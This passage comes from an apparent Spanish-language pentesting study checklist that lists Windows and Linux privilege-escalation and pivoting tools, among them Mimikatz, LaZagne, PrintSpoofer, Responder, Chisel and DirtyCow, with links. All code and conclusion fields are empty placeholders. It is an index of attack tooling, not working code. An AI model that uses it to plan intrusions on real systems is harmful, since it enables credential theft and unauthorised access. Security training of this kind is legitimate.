*   [ ] SOCAT👈 --------------------------------->[https://www.kali.org/tools/socat/](https://www.kali.org/tools/socat/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/socat-conecciones.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SSH TUNNELS👈 --------------------------------->[https://www.openssh.com/](https://www.openssh.com/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/libros-y-mas-pdf/port-forwarding-and-tunnelling-cheatsheet.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SSH TUNNELS👈 --------------------------------->[https://www.openssh.com/](https://www.openssh.com/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/libros-y-mas-pdf/port-forwarding-and-tunnelling-cheatsheet.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] POWERUP👈 --------------------------------->[https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] LaZagne👈 --------------------------------->[https://github.com/AlessandroZ/LaZagne](https://github.com/AlessandroZ/LaZagne)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/lazagne-obtencion-de-credenciales-y-posibles-escaladas-de-privilegios-para-windows-y-linux.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] MIMIKATZ👈 --------------------------------->[https://www.kali.org/tools/mimikatz/ ](https://www.kali.org/tools/mimikatz/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/mimikatz-obtencion-de-credenciales-y-posibles-escaladas-de-privilegios-para-windows.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] ROTTENPOTATO👈 --------------------------------->[https://github.com/breenmachine/RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] WINDOWS EXPLOITS SUGGESTER👈 --------------------------------->[https://github.com/AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] ACCESSCHK👈 --------------------------------->[https://github.com/ankh2054/windows-pentest](https://github.com/ankh2054/windows-pentest)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] PSEXEC👈 --------------------------------->[https://learn.microsoft.com/en-us/sysinternals/downloads/psexec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] WINPEAS👈 --------------------------------->[https://www.kali.org/tools/peass-ng/ ](https://www.kali.org/tools/peass-ng/)--->[https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] BLOODHOUND --------------------------------->[https://github.com/BloodHoundAD/BloodHound](https://github.com/BloodHoundAD/BloodHound)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] CRACKMAPEXEC --------------------------------->[https://www.kali.org/tools/crackmapexec/](https://www.kali.org/tools/crackmapexec/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] EMPIRE POWERSHELL Y LINUX👈 --------------------------------->[https://www.kali.org/tools/powershell-empire/ ](https://www.kali.org/tools/powershell-empire/)-->[https://github.com/EmpireProject/Empire](https://github.com/EmpireProject/Empire)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] RESPONDER👈 --------------------------------->[https://www.kali.org/tools/responder/ ](https://www.kali.org/tools/responder/)-->[https://github.com/SpiderLabs/Responder](https://github.com/SpiderLabs/Responder)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] LOLBAS👈 --------------------------------->[https://lolbas-project.github.io/#](https://lolbas-project.github.io)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] WADCOMS comandos👈 --------------------------------->[https://wadcoms.github.io/](https://wadcoms.github.io/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] HIJACKLIBS DLL👈 --------------------------------->[https://hijacklibs.net/](https://hijacklibs.net/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] PRINTSPOOFER👈 --------------------------------->[https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] ROGUEWINRM👈 --------------------------------->[https://github.com/antonioCoco/RogueWinRM](https://github.com/antonioCoco/RogueWinRM)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] WINDOWSPRIVESC metodos👈 --------------------------------->[https://github.com/debiantano/WindowsPrivesc](https://github.com/debiantano/WindowsPrivesc)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] PRIV-ESCALATION metodos👈 --------------------------------->[https://github.com/KevinLiebergen/priv-escalation](https://github.com/KevinLiebergen/priv-escalation)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] FILESEC GTFO win y linux👈 --------------------------------->[https://filesec.io/](https://filesec.io/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] HACKTRICKS👈 --------------------------------->[https://book.hacktricks.xyz/v/es/welcome/readme](https://book.hacktricks.xyz/v/es/welcome/readme)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] POWERSPLOIT👈 --------------------------------->[https://www.kali.org/tools/powersploit/](https://www.kali.org/tools/powersploit/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] EVIL-WINRM👈 --------------------------------->[https://www.kali.org/tools/evil-winrm/](https://www.kali.org/tools/evil-winrm/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] COMPLETAR...👈 --------------------------------->[https://www.paimon.com.ar/](https://www.google.com/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] COMPLETAR...👈 --------------------------------->[https://www.paimon.com.ar/](https://www.google.com/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:

***

***

</details>

☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️☣️

<details>

<summary>🐧 ESCALADA DE PRIVILEGIOS LINUX ❌</summary>

**ESCALADA DE PRIVILEGIOS LINUX**

*   [ ] NETCAT👈 --------------------------------->[https://www.kali.org/tools/netcat/ ](https://www.kali.org/tools/netcat/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/netcat-conexiones.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] NETCAT👈 --------------------------------->[https://www.kali.org/tools/netcat/ ](https://www.kali.org/tools/netcat/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/netcat-conexiones.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] NETCAT👈 --------------------------------->[https://www.kali.org/tools/netcat/ ](https://www.kali.org/tools/netcat/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/netcat-conexiones.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] METASPLOIT👈 --------------------------------->[https://www.metasploit.com/ ](https://www.metasploit.com/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/metasploit.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] METASPLOIT👈 --------------------------------->[https://www.metasploit.com/ ](https://www.metasploit.com/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/metasploit.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] METASPLOIT👈 --------------------------------->[https://www.metasploit.com/ ](https://www.metasploit.com/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/metasploit.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SOCAT👈 --------------------------------->[https://www.kali.org/tools/socat/](https://www.kali.org/tools/socat/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/socat-conecciones.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SOCAT👈 --------------------------------->[https://www.kali.org/tools/socat/](https://www.kali.org/tools/socat/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/socat-conecciones.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SSH TUNNELS👈 --------------------------------->[https://www.openssh.com/](https://www.openssh.com/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/libros-y-mas-pdf/port-forwarding-and-tunnelling-cheatsheet.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SSH TUNNELS👈 --------------------------------->[https://www.openssh.com/](https://www.openssh.com/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/libros-y-mas-pdf/port-forwarding-and-tunnelling-cheatsheet.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] LaZagne👈 --------------------------------->[https://github.com/AlessandroZ/LaZagne](https://github.com/AlessandroZ/LaZagne)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/lazagne-obtencion-de-credenciales-y-posibles-escaladas-de-privilegios-para-windows-y-linux.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] GTFObins👈 --------------------------------->[https://gtfobins.github.io/](https://gtfobins.github.io/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] GTFObins👈 --------------------------------->[https://gtfobins.github.io/](https://gtfobins.github.io/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] GTFObins👈 --------------------------------->[https://gtfobins.github.io/](https://gtfobins.github.io/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] LINUX KERNEL CVEs👈 --------------------------------->[https://www.linuxkernelcves.com/cves](https://www.linuxkernelcves.com/cves)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] LINENUM👈 --------------------------------->[https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] LINPEAS👈 --------------------------------->[https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] ENUMERACION SMART LINUX👈 --------------------------------->[https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] LINUXPRIVCHECKER👈 --------------------------------->[https://github.com/sleventyeleven/linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] LINUX EXPLOIT SUGGESTER👈 --------------------------------->[https://github.com/The-Z-Labs/linux-exploit-suggester](https://github.com/The-Z-Labs/linux-exploit-suggester)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] HACKTRICKS👈 --------------------------------->[https://book.hacktricks.xyz/v/es/welcome/readme](https://book.hacktricks.xyz/v/es/welcome/readme)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] CHKROOTKIT👈 --------------------------------->[https://github.com/Magentron/chkrootkit](https://github.com/Magentron/chkrootkit)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] LYNIS👈 --------------------------------->[https://github.com/CISOfy/lynis](https://github.com/CISOfy/lynis)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] UNIX-PRIVESC-CHECK👈 --------------------------------->[https://github.com/pentestmonkey/unix-privesc-check](https://github.com/pentestmonkey/unix-privesc-check)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] DIRDTYCOW👈 --------------------------------->[https://github.com/firefart/dirtycow](https://github.com/firefart/dirtycow)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] PRIV-ESCALATION metodos👈 --------------------------------->[https://github.com/KevinLiebergen/priv-escalation](https://github.com/KevinLiebergen/priv-escalation)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] FILESEC GTFO win y linux👈 --------------------------------->[https://filesec.io/](https://filesec.io/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] RESPONDER👈 --------------------------------->[https://www.kali.org/tools/responder/ ](https://www.kali.org/tools/responder/)-->[https://github.com/SpiderLabs/Responder](https://github.com/SpiderLabs/Responder)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] COMPLETAR...👈 --------------------------------->[https://www.paimon.com.ar/](https://www.google.com/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] COMPLETAR...👈 --------------------------------->[https://www.paimon.com.ar/](https://www.google.com/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:

***

***

</details>

☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️☢️

<details>

<summary>♻️ PIVOTING ❌</summary>

**PIVOTING**

*   [ ] SSH TUNNELS👈 --------------------------------->[https://www.openssh.com/](https://www.openssh.com/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/libros-y-mas-pdf/port-forwarding-and-tunnelling-cheatsheet.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] PROXYCHAINS👈 --------------------------------->[https://github.com/rofl0r/proxychains-ng](https://github.com/rofl0r/proxychains-ng)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SOCAT👈 --------------------------------->[https://www.kali.org/tools/socat/](https://www.kali.org/tools/socat/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/socat-conecciones.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] NCAT👈 --------------------------------->[https://nmap.org/ncat/](https://nmap.org/ncat/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] CHISEL👈 --------------------------------->[https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/chisel-creacion-de-tunel-entre-servidores-local-y-remoto-tambien-para-aprovechar-pivoting.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] CORKSCREW👈 --------------------------------->[https://github.com/bryanpkc/corkscrew](https://github.com/bryanpkc/corkscrew)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] METASPLOIT👈 --------------------------------->[https://github.com/rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] METERPRETER👈 --------------------------------->[https://www.metasploit.com/](https://www.metasploit.com/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] REGEORG👈 --------------------------------->[https://github.com/sensepost/reGeorg](https://github.com/sensepost/reGeorg)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] RPIVOT👈 --------------------------------->[https://github.com/klsecservices/rpivot](https://github.com/klsecservices/rpivot)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] COMPLETAR...👈 --------------------------------->[https://www.paimon.com.ar/](https://www.google.com/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] COMPLETAR...👈 --------------------------------->[https://www.paimon.com.ar/](https://www.google.com/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:

***

***

</details>

💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀💀
